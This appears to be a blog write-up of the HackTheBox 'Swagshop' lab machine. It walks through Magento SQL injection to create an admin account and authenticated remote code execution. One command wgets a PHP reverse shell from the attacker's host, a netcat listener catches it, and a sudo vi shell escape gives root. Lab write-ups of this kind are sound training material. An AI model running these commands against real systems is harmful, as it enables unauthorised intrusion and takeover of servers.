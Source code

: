 ```yaml
---
layout: post
title:  "HTB - Swagshop Write-up"
description: <img src="https://werdinfosec.com/images/2019-09-28/image0.png" class="centered" />

date:   2019-09-28 
categories: hackthebox hack the box swagshop swag shop write-up writeup write up
---
```


<img src="https://werdinfosec.com/images/2019-09-28/image1.png" class="right" />

<br/>

Hostname: swagshop.htb
======================

IP: 10.10.10.140
================

OS: Ubuntu 16.04
================

Difficulty: Easy
================

Creator: ch4p
=============
<br/>
<br/>
<br/>

TL;DR
=====
Swagshop is an easy linux box on HackTheBox, which is running a vulnerable version of Magento. Using a python exploit, a sql injection creates an admin account.
After creating the admin account a remote code execution python exploit allows for downloading a shell to the webroot. After triggering the reverse shell, loose restictions on sudo allow www-data to run 
vi on files in /var/www/html as root with no password. Escaping vi with a classic shell escape provides a shell as root.

<br/>

Enumeration
===========

Enumeration starts with a quick nmap scan. This reveals two open ports, 22 and 80. 

*command: nmap -sC -sV 10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image2.png" class="centered" />

Visiting port 80 a magento page is discovered. 

*url: http://10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image3.png" class="centered" />

Magento version enumeration is done by visting RELEASE_NOTES.txt

*url:http://10.10.10.140/RELEASE_NOTES.txt*
<img src="https://werdinfosec.com/images/2019-09-28/image4.png" class="centered" />

<br/>

Exploitation
============

The first [exploit] used creates an admin user on the Magento Web Application through a sql injection.

*command: searchsploit magento*
<img src="https://werdinfosec.com/images/2019-09-28/image5.png" class="centered" />

Mirroring the exploit to the working directory.

*command: searchsploit -m exploits/xml/webapps/37877.py*
<img src="https://werdinfosec.com/images/2019-09-28/image6.png" class="centered" />

For the exploit to work, remove all uncommented text. We are required to add the target ip to the exploit. The path has to be altered, as it is incorrect.

<img src="https://werdinfosec.com/images/2019-09-28/image7.png" class="centered" />

Set the new admin username and password to anything you'd like. I chose the username and password newadmin:hacker

<img src="https://werdinfosec.com/images/2019-09-28/image8.png" class="centered" />

Running the modified exploit.

*command python magentoexploit.py*
<img src="https://werdinfosec.com/images/2019-09-28/image9.png" class="centered" />

Logging in as 'newadmin to confirm that we have created a valid admin user.

*url: http://10.10.10.140/index.php/admin/*
<img src="https://werdinfosec.com/images/2019-09-28/image10.png" class="centered" />

<br/>

Remote Code Execution Exploit
=============================

Finding an [Authenticated Remote Code Execution Exploit].

<img src="https://werdinfosec.com/images/2019-09-28/image11.png" class="centered" />

Mirroring the exploit to current directory.

<img src="https://werdinfosec.com/images/2019-09-28/image12.png" class="centered" />

The exploit requires the exact date and time of the installation. This information can be found at /app/etc/local.xml

*url: http://10.10.10.140/app/etc/local.xml*
<img src="https://werdinfosec.com/images/2019-09-28/image13.png" class="centered" />

This exploit requires that username and password are defined. Change the install_date variable toreflect local.xml. Also the manual username control prevents the exploit from executing successfully.

<img src="https://werdinfosec.com/images/2019-09-28/image14.png" class="centered" />
<img src="https://werdinfosec.com/images/2019-09-28/image15.png" class="centered" />

Running the exploit. Executing whoami and pwd.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "whoami"*
*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "pwd"*
<img src="https://werdinfosec.com/images/2019-09-28/image16.png" class="centered" />

Downloading a reverse shell to /var/www/html allows for executing the php when triggered through a web browser. 
Starting python simpleHTTPserver to serve the [pentest monkey reverse shell]. Don't forget to change the IP and Port variable to reflect the attacker's listener information.

*command: python -m SimpleHTTPServer 80*
<img src="https://werdinfosec.com/images/2019-09-28/image17.png" class="centered" />

Downloading the reverse shell with the exploits remote code execution.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "wget http://10.10.14.20/revsh.php"*
<img src="https://werdinfosec.com/images/2019-09-28/image18.png" class="centered" />

Starting a netcat listener:

*command: nc -lvnp 443*
<img src="https://werdinfosec.com/images/2019-09-28/image19.png" class="centered" />

Triggering the reverse shell.

*url: http://10.10.10.140/revsh.php*
<img src="https://werdinfosec.com/images/2019-09-28/image20.png" class="centered" />

Catching the reverse shell as user www-data

<img src="https://werdinfosec.com/images/2019-09-28/image21.png" class="centered" />

Privilege Escalation
====================

First things first, upgrade to a tty with python3. Python 2 is not on this system, but python3 is. 

*command: python3 -c "import pty; pty.spawn('/bin/bash')"*
<img src="https://werdinfosec.com/images/2019-09-28/image22.png" class="centered" />

It appears www-data can run /usr/bin/vi on any file in the /var/www/html directory as root without a password.

*command: sudo -l*
<img src="https://werdinfosec.com/images/2019-09-28/image23.png" class="centered" />

Running the following command will start vi as root. Using vi we can execute any bash command by prepending the command with ':!'.

*command: sudo vi /var/www/html/anyfile*
<img src="https://werdinfosec.com/images/2019-09-28/image24.png" class="centered" />

The shell escape sequence:

*command: :! /bin/bash*
<img src="https://werdinfosec.com/images/2019-09-28/image25.png" class="centered" />

<br/>

ROOTED
======

<img src="https://werdinfosec.com/images/2019-09-28/image26.png" class="centered" />

Flags:

<img src="https://werdinfosec.com/images/2019-09-28/image27.png" class="centered" />


[pentest monkey reverse shell]:https://github.com/pentestmonkey/php-reverse-shell
[Authenticated Remote Code Execution Exploit]:https://www.exploit-db.com/exploits/37811
[exploit]:https://www.exploit-db.com/exploits/37977
